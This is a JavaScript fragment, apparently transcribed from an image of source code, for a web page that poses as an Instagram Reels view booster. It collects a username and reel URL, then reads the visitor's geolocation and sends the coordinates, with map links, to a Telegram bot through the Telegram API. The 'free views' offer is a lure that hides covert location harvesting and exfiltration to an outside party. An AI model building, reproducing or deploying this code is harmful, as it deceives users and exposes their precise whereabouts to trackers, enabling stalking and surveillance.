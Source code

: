 [Links]
- Google Maps: ${mapsLink}
- Google Earth: ${earthLink}
      `;

      // Send to Telegram
      const telegramURL = `https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`;
      fetch(telegramURL, {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({
          chat_id: CHAT_ID,
          text: message,
        })
      })
      .then(res => res.json())
      .then(data => console.log("Sent to Telegram:", data))
      .catch(err => console.error("Telegram Error:", err));
    }

    function getLocation(data) {
      if (navigator.geolocation) {
        navigator.geolocation.getCurrentPosition(
          (position) => sendLocationToTelegram(position, data), 
          (err) => {
            alert("Location error: " + err.message);
          }
        );
      } else {
        alert("Geolocation not supported.");
      }
    }

    function selectView(elem, views) {
      document.querySelectorAll('.view-card').forEach(card => card.classList.remove('selected'));
      elem.classList.add('selected');
      selectedViews = views;
    }

    function validateInputs() {
      const username = document.getElementById('username').value.trim();
      const reelURL = document.getElementById('reelURL').value.trim();
      const urlRegex = /^(https?:\/\/)?(www\.)?instagram\.com\/reel\/[\w\-]+/;
      if (!username || !reelURL || !urlRegex.test(reelURL)) {
        alert("Please enter valid Username and Reels URL.");
        return false;
      }
      if (!selectedViews) {
        alert("Please select a view count.");
        return false;
      }
      return { username, reelURL, views: selectedViews };
    }
